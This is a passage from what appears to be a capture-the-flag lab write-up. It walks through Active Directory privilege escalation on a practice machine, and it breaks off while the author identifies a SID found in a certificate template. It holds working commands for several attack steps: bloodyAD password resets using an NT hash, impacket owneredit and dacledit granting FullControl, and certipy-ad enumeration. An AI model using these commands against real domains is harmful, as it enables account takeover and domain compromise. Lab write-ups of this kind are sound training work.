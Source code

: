 ```
bloodyAD --host 10.10.11.72 -d 'tombwatcher.htb' -u 'ansible_dev$'  -p ':ecb4146b3f99e6bbf06ca896f504227c' set password SAM 'sam123'

[+] Password changed successfully!
```

![12](/images/writeups/tombwatcher/12.png)

Now that we have access to **Sam**, we can take advantage of his **WriteOwner** on **John**, which means we can **change the owner of John’s account** and modify his permissions to take control of his account or escalate privileges within the domain.

```
impacket-owneredit -action write -new-owner 'sam' -target 'john' 'tombwatcher.htb/sam:sam123'
```

```
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'sam123'
```

![13](/images/writeups/tombwatcher/13.png)

Now, taking advantage of the fact that **Sam** has **FullControl** over **John**, we change **John**’s password using **BloodyAD** with the following command:

```
bloodyAD --host 10.10.11.72 -d 'tombwatcher.htb'  -u 'sam' -p 'sam123' set password john 'john123'
```

![14](/images/writeups/tombwatcher/14.png)

With the user **John**, we can access his account and obtain the **User Flag**, which is located in his **Desktop** folder.

![15](/images/writeups/tombwatcher/15.png)

We now have control of the user **John**, who has **GenericAll** over the **ADCS** OU. This OU corresponds to the **Active Directory Certificate Services** infrastructure, which **manages certificate** issuance and usage within the domain.

With this control, we can abuse the certificate configuration, and to do so, we use [**Certipy-AD**](https://www.kali.org/tools/certipy-ad/), which allows us to **enumerate**, **create**, and **request misconfigured certificates** to escalate privileges within the domain.

```
certipy-ad find -u 'john@tombwatcher.htb' -p 'john123' -dc-ip 10.10.11.72
```

![16](/images/writeups/tombwatcher/16.png)

![17](/images/writeups/tombwatcher/17.png)

In the **WebServer certificate template**, we encounter a **SID** (S-1-5-21-1392491010-1358638721-2126982587-1111), so we decide to search the system to see which **user** or **group** it belongs to.
